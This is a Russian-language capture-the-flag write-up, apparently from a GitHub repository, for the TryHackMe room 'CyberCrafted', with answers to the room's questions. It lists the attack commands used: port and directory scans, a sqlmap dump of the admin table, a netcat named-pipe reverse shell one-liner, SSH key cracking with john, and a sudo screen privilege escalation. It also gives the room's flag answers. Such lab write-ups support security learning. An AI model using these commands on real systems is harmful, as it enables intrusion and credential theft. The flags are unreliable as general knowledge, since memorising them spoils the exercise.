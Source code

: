 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [CyberCrafted](https://tryhackme.com/r/room/cybercrafted) 

Всего 3 задания:
## Задание 1
Подключитесь к сети TryHackMe и разверните машину. Если вы не знаете, как подключиться к VPN, пожалуйста, заполните  
комнату OpenVPN  или используйте AttackBox, нажав кнопку Start AttackBox.

Обратите внимание, что загрузка этой машины может занять пару минут. Я бы рекомендовал дать ей не менее пяти минут.

### Ответьте на вопросы ниже
Готово.. Приготовьтесь...
```commandline
Go
```

## Задание 2
ы нашли IP-адрес сервера Minecraft, находящегося в разработке.  Можете ли вы получить root- доступ?

### Ответьте на вопросы ниже
Сколько портов открыто?
```commandline
nmap -T5  <IP>
dirsearch  -u <IP>
echo ‘<IP>    cybercrafted.thm’  >> /etc/hosts
dirsearch -u http://admin.cybercrafted.thm/
dirsearch -u http://store.cybercrafted.thm/
sqlmap -r req.req --dbms=mysql -D webapp -T admin –dump
id
rm f;mkfifo f;cat f|/bin/sh -i 2>&1|nc <IP> 4444 > f
scp id_rsa root@<IP>:/root/trytohackme/cybercraft/
ssh2john id_rsa > id_rsa.hash
john id_rsa.hash -wordlist=/usr/share/wordlists/rockyou.txt
su cybercrafted
sudo -l
sudo /usr/bin/screen -r cybercrafted

```
```commandline
3
```
Какая служба работает на самом высоком порту?
```commandline

```
```commandline
minecraft
```
Есть ли поддомены? (В алфавитном порядке)
```commandline
admin store www
```
На какой странице вы нашли уязвимость?
```commandline
search.php
```
Какое имя пользователя у администратора? (С учетом регистра)
```commandline
xXUltimateCreeperXx
```
Что такое веб-флаг?
```commandline
THM{bbe315906038c3a62d9b195001f75008}
```
Можете ли вы получить флаг сервера Minecraft?
```commandline
THM{ba93767ae3db9f5b8399680040a0c99e}
```
Как называется этот сомнительный плагин?
```commandline
LoginSystem
```
Какой флаг у пользователя?
```commandline
THM{b4aa20aaf08f174473ab0325b24a45ca}
```
Заверши работу и дай мне корневой флаг!
```commandline
THM{8bb1eda065ceefb5795a245568350a70}
```

## Задание 3
И вот вам! Это было « Cybercrafted » от  madrinch .

Подписывайтесь на меня в  Twitter !

### Ответьте на вопросы ниже
Удачи в ваших будущих приключениях!
```commandline
Ответ не нужен
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)